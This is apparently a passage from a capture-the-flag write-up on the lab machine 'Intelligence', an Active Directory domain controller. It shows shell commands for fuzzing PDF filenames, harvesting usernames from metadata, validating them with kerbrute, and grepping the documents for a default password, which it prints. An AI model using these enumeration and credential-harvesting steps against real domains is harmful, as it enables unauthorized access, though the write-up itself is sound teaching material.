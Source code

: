 Based on the open ports, this box is an **Active Directory domain controller**.
The hostname _dc.intelligence.htb_ should be added to the _/etc/hosts_ file.

## Checking HTTP (Port 80)

The web service is a custom developed website, which has no valuable information, but hosts two PDF files:
- _/documents/2020-01-01-upload.pdf_
- _/documents/2020-12-15-upload.pdf_

Both files don't have any interesting information, but it is strange that there is such a difference between the dates of the filenames.
There may be other PDF files, so we should fuzz every date of the year 2020 with the same name scheme.

Creating wordlist with every date of the year 2020:
```
for month in {01..12}; do for day in {01..31}; do echo 2020-$month-$day-upload.pdf; done; done > pdf.list
```

Fuzzing through the wordlist:
```
wfuzz -u http://10.10.10.248/documents/FUZZ -w pdf.list --hc 404
```

It finds 84 PDF files and they can be downloaded to check them:
```
for i in $(cat pdf.list); do wget http://10.10.10.248/documents/$i; done
```

All PDF files have metadata and different creators that should be put into a wordlist:
```
exiftool *.pdf | grep Creator | awk '{print $3}' > usernames.list
```

Using [Kerbrute](https://github.com/ropnop/kerbrute) to test if the usernames can authenticate to the domain controller:
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb usernames.list
```

Every username is valid and can be potentially used to gain access, if a valid password is found.
The PDFs may contain sensitive information such as temporary passwords, so they can be converted to text to search for strings:
```
for i in $(ls); do pdftotext $i; done
```

Searching for interesting phrases:
```
cat * | grep -iR password
```

The file _2020-06-04-upload.pdf_ has a default password:
```
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.
```
